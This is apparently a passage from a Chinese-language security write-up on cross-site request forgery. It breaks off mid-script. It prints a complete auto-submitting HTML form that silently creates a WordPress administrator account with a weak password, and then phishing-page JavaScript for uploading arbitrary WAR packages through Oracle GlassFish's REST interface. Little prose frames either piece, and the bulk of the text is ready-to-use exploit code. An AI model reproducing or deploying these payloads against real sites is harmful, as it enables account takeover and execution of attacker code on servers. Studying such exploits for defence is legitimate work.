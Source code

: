 另一个测试用例时添加某个具有管理员权限的用户，测试用例为:
```
 <html>
 <body onload="javascript:document.forms[0].submit()">
 <H2>CSRF Exploit to add Administrator</H2>
 <form method="POST" name="form0" action="http://<wordpress_ip>:80/wp-admin/user-new.php">
 <input type="hidden" name="action" value="createuser"/>
 <input type="hidden" name="_wpnonce_create-user" value="<sniffed_value>"/>
 <input type="hidden" name="_wp_http_referer" value="%2Fwordpress%2Fwp-admin%2Fuser-new.php"/>
 <input type="hidden" name="user_login" value="admin2"/>
 <input type="hidden" name="email" value="admin2@admin.com"/>
 <input type="hidden" name="first_name" value="admin2@admin.com"/>
 <input type="hidden" name="last_name" value=""/>
 <input type="hidden" name="url" value=""/>
 <input type="hidden" name="pass1" value="password"/>
 <input type="hidden" name="pass2" value="password"/>
 <input type="hidden" name="role" value="administrator"/>
 <input type="hidden" name="createuser" value="Add+New+User+"/>
 </form>
 </body>
 </html>
```

## Oracle GlassFish Server - REST Cross-Site Request Forgery

该漏洞是由Security-Assessment.com发现的，Oracle GlassFish服务器的REST接口可以被CSRF请求攻击，譬如其可以允许普通用户任意上传WAR包，并且可以控制在服务端运行从而导致窃取其他运行应用的信息。关于具体的攻击复盘可以参考[这里](http://blog.kotowicz.net/2011/04/how-to-upload-arbitrary-file-contents.html)。其攻击手段是首先在钓鱼站点上设置如下按钮:
```
<button id="upload" onclick="start()" type="button">Upload WAR Archive</button> 
```
然后添加如下脚本:
``` 
var logUrl = 'http://glassfishserver/management/domain/applications/application'; 
   
function fileUpload(fileData, fileName) { 
    var fileSize = fileData.length, 
      boundary = "---------------------------270883142628617", 
      uri = logUrl, 
      xhr = new XMLHttpRequest(); 
   
    var additionalFields = { 
          asyncreplication: "true", 
          availabilityenabled: "false", 
          contextroot: "", 
        createtables: "true", 
        dbvendorname: "", 
        deploymentplan: "", 
        description: "", 
        dropandcreatetables: "true", 
        enabled: "true", 
        force: "false", 
        generatermistubs: "false", 
        isredeploy: "false", 
        keepfailedstubs: "false", 
        keepreposdir: "false", 
        keepstate: "true", 
        lbenabled: "true", 
        libraries: "", 
        logReportedErrors: "true", 
        name: "", 
        precompilejsp: "false", 
        properties: "", 
```